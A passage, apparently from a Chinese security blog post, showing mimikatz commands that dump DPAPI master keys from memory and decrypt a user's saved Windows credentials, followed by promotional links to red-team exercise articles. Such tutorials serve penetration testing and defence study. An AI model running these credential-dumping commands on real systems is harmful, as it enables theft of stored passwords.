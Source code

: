 ```
mimikatz.exe ""privilege::debug"" ""sekurlsa::dpapi full"" exit >> c:\\log.txt

```

根据 guid 获取到 masterkey

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEu95f1WUwibzl5ZU2Ve2xDeKkJ2vdP3X0I1p0n3jxhnFBHNN13vtgzeg/640?wx_fmt=png)

**5.mimikatz 破解密码**  

```
dpapi::cred /in:C:\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363/masterkey:3d5c95de7ccd3a1d468efd0d90a42330cdcf06d0e7ee834a443907384a6b25dab8d8ab32c8c9540605711d689304ecab949e168719551d2423498168f7fec6ac

```

之前分享过的资料：

ctf web/ctf misc 学习资料，私聊公众号发送 “ctf 学习资料” 会自动回复你下载链接；

hw 期间分享过溯源思维脑图，私聊公众号发送 “获取高清图” 会自动回复你下载链接；

hw 期间分享的个人收集的子域名字典，私聊公众号发送 “获取子域名字典” 会自动回复你下载链接；

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/x1FY7hp5L8Hr4hmCxbekk2xgNEJRr8vlbLKbZjjWdV4eMia5VpwsZHOfZmCGgia9oCO9zWYSzfTSIN95oRGMdgAw/640?wx_fmt=gif)

[HW 平安夜 09/21 死磕到底](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492045&idx=1&sn=b6582bfbacfb23ec97376d785a747013&chksm=f9e38e96ce9407807fd5700ddc49d3eba097b06f9bde6b396dc6b43c696f131428d22598ab91&scene=21#wechat_redirect)  

[HW 平安夜 09/22 风平浪静](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492087&idx=1&sn=d76aa30ad75ae19635369255fa4a8e34&chksm=f9e38eacce9407ba315054b8e773bc03b011295421ba049edbd8a6c5eaca273a1b9a2d81c7ff&scene=21#wechat_redirect)

[蜜罐打油诗 - 死磕到底](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492087&idx=2&sn=9274f09da64689cd1fa3fddc599f26f9&chksm=f9e38eacce9407ba8990d7e304e08532b46414f6d4c5fbb00981b848b33826b3162c97d46eaf&scene=21#wechat_redirect)

[HW 平安夜 09/23 HW 总结模板](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492099&idx=1&sn=63eaa95c2a7269fc155236978862df8e&chksm=f9e38d58ce94044edcfb099af778c7ceed8e4786ced0c25c2a663dd9b58b51ce67496dbc475f&scene=21#wechat_redirect)

[HW 平安夜 09/23 2020HW 总结](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492124&idx=1&sn=42cd804517dc7d908581718ab763e645&chksm=f9e38d47ce940451c6ade54fee05f8d3254ac116fa41bd7c3d5bd924bd3f97c6837f481a3b38&scene=21#wechat_redirect)  

[2020 年 HW 终结篇](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492152&idx=1&sn=ab93411842bd286a820d14ebad05bcda&chksm=f9e38d63ce9404753f752711e6da02c976ac08b26d65c41573e1d2f80d78accba923bea5c6bd&scene=21#wechat_redirect)  
